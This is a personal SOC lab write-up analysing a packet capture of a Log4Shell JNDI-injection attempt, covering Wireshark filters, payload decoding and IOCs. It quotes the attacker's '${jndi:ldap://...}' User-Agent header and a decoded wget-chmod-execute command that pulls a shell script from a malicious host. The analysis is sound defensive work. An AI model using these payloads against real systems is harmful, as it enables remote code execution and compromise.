


#  Remote Code Execution Attempt via Log4j (JNDI Injection)

## Overview

In this lab, I documented the investigation of a malicious packet capture (PCAP) containing a real-world Log4j (Log4Shell) exploit attempt. The objective was to detect signs of remote code execution (RCE), identify Indicators of Compromise (IOCs), and validate attacker infrastructure using open-source tools. This project helped me gain skills in threat hunting, packet analysis, payload decoding, and threat intelligence.

##  Objective

- Analyze a suspicious `.pcapng` file 
- Detect Log4j exploit attempts via JNDI injection  
- Decode any hidden payloads  
- Confirm if any callback/C2 behavior occurred  
- Extract IOCs and validate threat infrastructure
  
---

##  Tools Used

- **Wireshark** (v4.4.6)  
- **CyberChef** (Base64 decoding)  
- **VirusTotal** (IP reputation lookup)

----

## Detection Techniques Used

- Wireshark display filters
- TCP stream inspection
- CyberChef decoding
- IP reputation check via VirusTotal

---

### Step 1 : Initial Packet Capture Review

- Loaded the `.pcapng` file into **Wireshark** (Optional-Download : https://bit.ly/Log4jAttack)
- Since this was an offline PCAP, interface selection was irrelevant

---

### Step 2: Applied Filter to Detect Log4j Exploits

**Filter Used:** frame contains "jndi"

This shows suspicious traffic where JNDI strings are present in HTTP request payloads—an indicator of potential Log4j exploitation attempts.

**Goal:** Detect `${jndi:...}` pattern commonly used in Log4Shell attacks

**Findings:**

- Multiple HTTP POST requests to `198.71.247.91` (SERVER IP)
- Suspicious `User-Agent` headers containing: ${jndi:ldap://45.137.21.9:1389/Basic/Command/Base64/...}

---

### Step 3: Isolate Callback Behavior

With this filter on the screenshot I am simply asking:

“Can I see both the exploit being delivered, and then the server reaching out, possibly due to running the attacker's code?”

## In Real production environment ##

I am testing for:

 - Both the attack and signs that the server tried to call back (C2 attempt).

- This could expose the initial stage (injection) + follow-up behavior (outbound connections).

 I believe this is exactly what threat analysts do when hunting:

- Ingress: Who sent the attack?

- Egress: Did the server connect back (C2)? Did the shell script run?

---

###  Step 4: Decode the Payload with CyberChef

What I Found: Deep Dive into Packet No. 444

While going through the PCAP file in Wireshark, I selected **Packet No. 444** and found the following:

This screenshot captures the exact request and malicious header used by the attacker to exploit Log4j.

---

### After analyzing what is happening:

- The attacker (`45.137.21.9`) is trying to exploit a vulnerable Log4j server at `198.71.247.91`.
- They embedded a malicious string in the `User-Agent` header.
- The `${jndi:ldap://...}` part is a **Log4j exploit payload**.
- The segment after `/Base64/...` is likely **Base64-encoded shell commands**, possibly a reverse shell or downloader script.

---

### This Is Classic Log4Shell Behavior

| Component             | Meaning                                                                 |
|------------------------|-------------------------------------------------------------------------|
| `${jndi:...}`          | Triggers Log4j to fetch and execute remote code                        |
| `ldap://...`           | Points to the attacker's LDAP server delivering malicious script |
| `Base64/...`           | Encodes the actual payload to evade detection and obfuscate intent     |

---

### What I Would Do as a SOC Analyst in a Real Production Environment:

1. **Tag This IP as Malicious**
   - Add `45.137.21.9` to a watchlist or threat intel feed.
   - Check internal logs for any responses to this IP.

2. **Decode the Base64 Payload**
   - Extract the string after `/Base64/` : d2dldCBodHRwOi8vNjIuMjEwLjEzMC4yNTAvbGguc2g7Y2htb2QgK3ggbGguc2g7Li9saC5zaA==
   - Use **CyberChef** or similar tools to decode and inspect it.

3. **Correlate With Server Behavior**
   - Check if the target server (`198.71.247.91`) attempted **LDAP or HTTP callbacks**.
   - Investigate firewall logs, DNS resolutions, and endpoint telemetry.

4. **Report or Block**
   - Share IOCs (e.g., IP address, `User-Agent` JNDI pattern) with internal security teams.
   - Update detection rules to catch similar header-based attacks in future traffic.

---

**Decoded with CyberChef:**  

wget http://62.210.130.250/lh.sh ; chmod +x lh.sh; ./lh.sh

 
This screenshot shows the decoding process in **CyberChef**, where the Base64-encoded string is transformed into a shell command. The output reveals the intent to download and execute a remote shell script, indicating a clear attempt at remote code execution.

**Interpretation:**

- Downloads a shell script from `62.210.130.250`
- Makes it executable and runs it
- Confirms a remote code execution attempt

---

### Step 5: Validate Malware Host with VirusTotal
 
This screenshot shows that multiple security vendors (e.g., BitDefender, ESET, Dr.Web) flagged this IP as **Malicious**, **Malware**, or **Phishing**.

**Queried IP:** `62.210.130.250`  
**Result:** Flagged as malicious by 12+ security vendors

---

## Additional Observations

- Attacker LDAP server `45.137.21.9:1389` delivered the malicious redirect
- Script `lh.sh` likely contains second-stage malware or C2 payload

---

##  Filters Used

- `ip contains "jndi"`  
- `tcp.flags == 0x002 and ip.src == 198.71.247.91`  
- `frame contains "ldap"`  
- `http contains "Base64"`  
- `http.request.method == "POST"`

---

## Indicators of Compromise (IOCs)

| Type               | Value                          |
|--------------------|--------------------------------|
| Attacker LDAP IP   | `45.137.21.9`                  |
| Malware Host IP    | `62.210.130.250`               |
| Targeted Server IP | `198.71.247.91`                |
| Payload Pattern    | `${jndi:ldap://...}`           |
| Payload Script     | `lh.sh` (via `wget`)           |

---

## Summary of Insights

- Real-world **Log4j RCE** attempt detected
- Payload was **Base64 encoded** to obscure intent
- Malicious infrastructure still active at time of analysis
- No full C2 stream detected, but **SYN packets suggest callbacks**
  
---

## Lessons Learned

- Log4j exploits can hide in HTTP headers like `User-Agent`
- Always decode suspicious strings to understand payload behavior
- Outbound SYNs may indicate attempted **C2 communication**
- Cross-referencing IOCs with services like **VirusTotal** increases confidence

---

##  Conclusion

This concludes **Case Study #1** in the Network Threat Hunting Lab.  
It demonstrates a full-stack analysis pipeline suitable for my:

- SOC analyst internship applications  
- Blue team/IR skill demonstration  
- Personal cybersecurity lab documentation

---

* This personal lab project demonstrates my understanding of network protocols, threat patterns, and detection techniques used in real SOC environments.
   
Credit: Thanks to Brad Duncan for providing this sample file for educational use.

* ⚠️ **Disclaimer**: This project is for educational and demonstration purposes only. The linked PCAP file is publicly shared by its original author (Brad Duncan) and does not contain real user data. Always analyze malicious traffic responsibly in a safe, isolated environment.

